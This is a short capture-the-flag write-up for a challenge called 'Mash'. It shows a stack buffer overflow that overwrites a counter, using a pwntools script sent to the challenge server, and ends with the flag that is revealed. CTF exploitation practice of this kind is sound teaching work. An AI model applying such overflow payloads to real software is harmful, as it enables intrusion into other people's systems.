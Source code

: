 # Mash

Lets just run that binary
```HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
```

hmm, looks like we would have to press that enter button about 18446744073709551615 times.  Doesnt seem that doable, so lets try another approach.

Typing a bunch of `A`s we get:
```HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffff000a41
CURRENT COUNT: 0x4141414141414141
```

Interesting, looks like we can override the buffer here and have control over the counter.  So I filled the buffer and overwrote the variable on the stack with `\xff * 32` .
```python
from pwn import *

io = remote('ctf.ropcity.com', 31337)
#io = process("./mash")

padding = "\xff"*32
io.sendline(padding)

io.interactive()
```
And running the script we get the flag!
```
HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
osu{n3xt_1evel_butt0N_maSh1ng}
```

